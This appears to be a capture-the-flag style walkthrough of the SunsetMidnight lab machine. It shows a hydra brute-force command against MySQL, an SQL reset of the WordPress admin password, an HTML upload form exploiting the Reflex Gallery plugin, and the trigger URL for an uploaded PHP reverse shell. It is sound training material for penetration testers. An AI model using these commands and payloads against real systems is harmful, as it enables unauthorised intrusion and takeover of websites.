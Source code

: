 #### Enumeration

Browsing to port 80 HTTP service through IP address fails and it returns a domain name ```sunset-midnight```. We need to modify DNS settings first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h44m48s_001.png)

We add a DNS rule in ```/etc/hosts``` file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h49m45s_002.png)
 
Browsing to port 80 HTTP service again, and this time we see a webpage built with WordPress.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h54m51s_003.png)

The WordPress plugin we find is ```Simply Poll``` but its real version is 1.5, not 1.4.1 which has a vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h06m07s_004.png)

After a lot of searching, I can't find the breakthrough of the WordPress website. So I move to port 3306 and try to brute-force database password.

I try to use the account ```wordpress``` but fail. [(*understanding max_connect_errors*)](https://www.virtual-dba.com/blog/mysql-max-connect-errors/)

```
hydra -l root -P ~/Documents/rockyou.txt -s 3306 -t 4 -f 192.168.128.88 mysql
```

Change the account to root to try and we successfully get the password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h49m01s_005.png)

Browsing to WordPress database we We can change the password to ```admin123```.

```
UPDATE wp_users SET user_pass = MD5('admin123') WHERE ID = '1';
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h52m50s_006.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m03s_007.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m26s_008.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h54m55s_009.png)

Logging in to WordPress dashboard. We can [upload and activate a malicious plugin](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#uploading-and-activating-malicious-plugin).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h10m32s_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h11m44s_011.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m11s_012.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m34s_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h18m32s_014.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h22m38s_015.png)

According to the [exploit](https://www.exploit-db.com/exploits/36374) instructions we create an html file for uploading.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h23m25s_016.png)

```html
<form method="POST" action="http://sunset-midnight/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2022&Month=02" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h24m19s_017.png)

Now let's prepare a [php file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) with the reverse shell command.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h29m08s_018.png)

Use firefox to open our test.html file and upload the php malicious file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h32m46s_019.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h33m10s_020.png)

Start listening to 80 port and browse to the address indicated by the vulnerability.

```
http://sunset-midnight/wp-content/uploads/2022/02/php-reverse-shell.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h34m54s_021.png)

